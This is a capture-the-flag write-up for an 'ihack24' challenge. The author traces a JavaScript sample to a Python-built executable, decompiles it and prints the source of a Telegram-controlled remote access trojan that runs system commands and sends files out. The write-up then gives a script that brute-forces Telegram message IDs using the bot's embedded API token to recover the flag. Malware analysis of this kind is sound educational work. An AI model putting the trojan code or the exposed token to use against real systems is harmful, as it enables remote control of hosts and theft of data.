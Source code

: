 # Confusing Javascript

***

## Reference

{% embed url="https://zachwong02.github.io/post/malware-finds-a-way/" %}

***

## Solution

Given a javascript file.&#x20;

`eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16.js: JavaScript source, Unicode text, UTF-8 text, with very long lines (766), with CRLF line terminators`



Notice that the filename looks like a hash. Initial step taken was putting the filename into VirusTotal.

Link [here](https://www.virustotal.com/gui/file/eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16/detection)

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

From here, the solution can go faster for this challenge without opening the javascript file.

The link provided by the VirusTotal contains a[ github repository with a malicious executable](https://github.com/Hrztrm/refactored-bassoon).&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Download the `taskmanager.exe` for further analysis.

Upon analysing the file using **strings** command suggest that the executable file was built using Python.

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Decompile the executable to its source code using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) .

`python3 pyinstxtractor.py taskmanager.exe`

There a lot of files in the executable. The most interesting one is **PythonTelegramBot.pyc**

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Extract the pyc file to source code using [pycdc](https://github.com/zrax/pycdc)

`pycdc PythonTelegramBot.pyc`

The source code should be something like below.

```python
# Source Generated with Decompyle++
# File: PythonTelegramBot.pyc (Python 3.10)

import telebot
import platform
import subprocess
BOT_API_KEY = '6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY'
telegram_user_id = 0x1724E8650
bot = telebot.TeleBot(BOT_API_KEY)

def verify_telegram_id(id):
    return telegram_user_id == id


def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return None(output[1])


def begin(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    hostname = None('hostname')
    current_user = execute_system_command('whoami')
    response = f'''Running as: {hostname}/{current_user}'''
    bot.reply_to(message, response)

begin = bot.message_handler([
    'start'], **('commands',))(begin)

def injectFlag(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    Flag = None('type flag.txt')
    bot.reply_to(message, Flag)

injectFlag = bot.message_handler([
    'flag'], **('commands',))(injectFlag)

def view_file(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
    result = ''
    if platform.system() == 'Windows':
        result = execute_system_command(f'''type {file_path}''')
    else:
        result = execute_system_command(f'''cat {file_path}''')
    bot.reply_to(message, result)

view_file = bot.message_handler([
    'viewFile'], **('commands',))(view_file)

def download_file(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
    if None(message.text.split(' ')) != 2:
        return None
    file_path = None.text.split(' ')[1]
# WARNING: Decompyle incomplete

download_file = bot.message_handler([
    'downloadFile'], **('commands',))(download_file)

def handle_document_upload(message):
Unsupported opcode: RERAISE
    if not verify_telegram_id(message.from_user.id):
        return None
# WARNING: Decompyle incomplete

handle_document_upload = bot.message_handler([
    'document'], **('content_types',))(handle_document_upload)

def handle_any_command(message):
    if not verify_telegram_id(message.from_user.id):
        return None
    if None.text.startswith('/start'):
        return None
    response = None(message.text)
    bot.reply_to(message, response)

handle_any_command = bot.message_handler()(handle_any_command)
bot.infinity_polling()
```

Based on the code above, the assumption is that the flag is stored in a chat between the author and the bot.&#x20;

The specific message stored by the bot needs to be forwarded using the `forwardMessage` Telegram API call method. With the **bot API key** and **chat ID** available, the API request can be constructed once the missing part, which is the **message ID**, is found



The API request should look like this:

`https://api.telegram.org/bot<api_key>/forwardMessage?from_chat_id=<chat_id>&message_id=<message_id>&chat_id=<chat_id>`



Create a python script to brute force the **message id**.

```python
import requests

api_url = "https://api.telegram.org/bot{}/forwardMessage"

bot_token = "6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY"

from_chat_id = "6212716112"
chat_id = "6212716112"
start_message_id = 0

def brute_force_message_id():
    message_id = start_message_id
    while True:
        try:
            response = requests.post(
                api_url.format(bot_token),
                data={
                    "from_chat_id": from_chat_id,
                    "message_id": message_id,
                    "chat_id": chat_id
                }
            )
            if response.status_code == 200:
                response_data = response.json()
                if 'result' in response_data and 'ihack' in str(response_data):
                    print(f"Found 'ihack' in message ID {message_id}")
                    break
            else:
                print(f"Failed to forward message ID {message_id}: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            break

        message_id += 1
        print(message_id)

if __name__ == "__main__":
    brute_force_message_id()
```



Then, message ID number 173 was received, and the request now appears as follows:

{% embed url="https://api.telegram.org/bot6610257712:AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY/forwardMessage?from_chat_id=6212716112&message_id=173&chat_id=6212716112" %}

The flag will be shown in a json format as below

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

***

## Flag

ihack24{fr0m\_J4V45Cr1p7\_2\_73L39r4m}
